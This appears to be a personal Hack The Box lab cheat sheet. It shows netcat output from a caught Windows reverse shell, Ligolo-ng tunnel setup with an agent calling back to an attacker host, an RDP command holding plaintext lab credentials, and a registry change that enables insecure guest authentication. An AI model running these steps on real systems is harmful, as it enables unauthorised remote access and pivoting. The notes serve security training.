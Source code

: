 We have successfully established a reverse shell connection in our attack box:


```shell-session
BusySec@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 50027

PS C:\Windows\system32> 
```


# TODO - Da inserire nello cheatsheet

## Ligolo
download linux and windows agents on the [release](https://github.com/nicocha30/ligolo-ng/releases) page.

### Linux listener
unzip the release folder and start the proxy file
```bash
./proxy -selfcert
```

Create new network interface
```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add <NetMask of target IP> dev ligolo
```

After that we have started the agent on windows machine on the terminal where we have launch the proxy file we can type 
```bash
session
start
```
### Windows
```powershell
.\agent.exe -connect KALI:11601 -ignore-cert
```


## RDP Connection
```
xfreerdp3 /u:helen /p:'RedRiot88' /v:10.129.229.244 /dynamic-resolution /drive:.,linux /bpp:16 /compression -themes -wallpaper /clipboard +clipboard /audio-mode:0
```

## Modify Register to execute code
```bash
reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
```
